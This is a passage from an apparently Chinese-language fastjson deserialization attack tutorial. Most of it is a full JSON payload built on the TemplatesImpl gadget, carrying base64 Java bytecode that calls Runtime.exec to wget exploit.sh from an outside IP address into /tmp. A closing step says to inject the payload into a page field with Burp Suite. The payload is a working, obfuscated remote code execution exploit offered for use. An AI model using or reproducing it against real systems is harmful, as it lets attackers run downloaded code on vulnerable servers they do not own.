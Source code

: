 ![fastjson](imgs/11.png)

利用上文中的Test.java文件构造下载explot.sh脚本命令，同理也可以通过上文中的POC.java文件将编译好的Test.class文件进行base64编码构造payload：

```java
{"@type":"com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl","_bytecodes":
["yv66vgAAADEANAcAAgEAC3BlcnNvbi9UZXN0BwAEAQBAY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbH
RjL3J1bnRpbWUvQWJzdHJhY3RUcmFuc2xldAEABjxpbml0PgEAAygpVgEACkV4Y2VwdGlvbnMHAAkBABNqYXZhL2lvL0lPRX
hjZXB0aW9uAQAEQ29kZQoAAwAMDAAFAAYKAA4AEAcADwEAEWphdmEvbGFuZy9SdW50aW1lDAARABIBAApnZXRSdW50aW1lAQ
AVKClMamF2YS9sYW5nL1J1bnRpbWU7CAAUAQAzL3Vzci9iaW4vd2dldCAtUCAvdG1wIGh0dHA6Ly80NS4zMi4xMjAuOC9leH
Bsb2l0LnNoCgAOABYMABcAGAEABGV4ZWMBACcoTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvUHJvY2VzczsBAA9MaW
5lTnVtYmVyVGFibGUBABJMb2NhbFZhcmlhYmxlVGFibGUBAAR0aGlzAQANTHBlcnNvbi9UZXN0OwEACXRyYW5zZm9ybQEApi
hMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTtMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbn
Rlcm5hbC9kdG0vRFRNQXhpc0l0ZXJhdG9yO0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2
VyaWFsaXphdGlvbkhhbmRsZXI7KVYBAAhkb2N1bWVudAEALUxjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveH
NsdGMvRE9NOwEACGl0ZXJhdG9yAQA1TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvZHRtL0RUTUF4aXNJdGVyYX
RvcjsBAAdoYW5kbGVyAQBBTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW
9uSGFuZGxlcjsBAHIoTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007W0xjb20vc3VuL29yZy
9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7KVYHACcBADljb20vc3VuL29yZy
9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvVHJhbnNsZXRFeGNlcHRpb24BAAhoYW5kbGVycwEAQltMY29tL3N1bi9vcm
cvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOwEABG1haW4BABYoW0xqYXZhL2
xhbmcvU3RyaW5nOylWBwAtAQATamF2YS9sYW5nL0V4Y2VwdGlvbgoAAQAMAQAEYXJncwEAE1tMamF2YS9sYW5nL1N0cmluZz
sBAAF0AQAKU291cmNlRmlsZQEACVRlc3QuamF2YQAhAAEAAwAAAAAABAABAAUABgACAAcAAAAEAAEACAAKAAAAQAACAAEAAA
AOKrcAC7gADRITtgAVV7EAAAACABkAAAAOAAMAAAAPAAQAEAANABEAGgAAAAwAAQAAAA4AGwAcAAAAAQAdAB4AAQAKAAAASQ
AAAAQAAAABsQAAAAIAGQAAAAYAAQAAABUAGgAAACoABAAAAAEAGwAcAAAAAAABAB8AIAABAAAAAQAhACIAAgAAAAEAIwAkAA
MAAQAdACUAAgAHAAAABAABACYACgAAAD8AAAADAAAAAbEAAAACABkAAAAGAAEAAAAZABoAAAAgAAMAAAABABsAHAAAAAAAAQ
AfACAAAQAAAAEAKAApAAIACQAqACsAAgAHAAAABAABACwACgAAAEEAAgACAAAACbsAAVm3AC5MsQAAAAIAGQAAAAoAAgAAAB
wACAAdABoAAAAWAAIAAAAJAC8AMAAAAAgAAQAxABwAAQABADIAAAACADM="],'_name':'a.b','_tfactory':{
},"_outputProperties":{ },"_name":"a","_version":"1.0","allowedProtocols":"all"}
```



3.利用burpsuite，把插入页面的数组字段name的值换成我们的攻击payload：
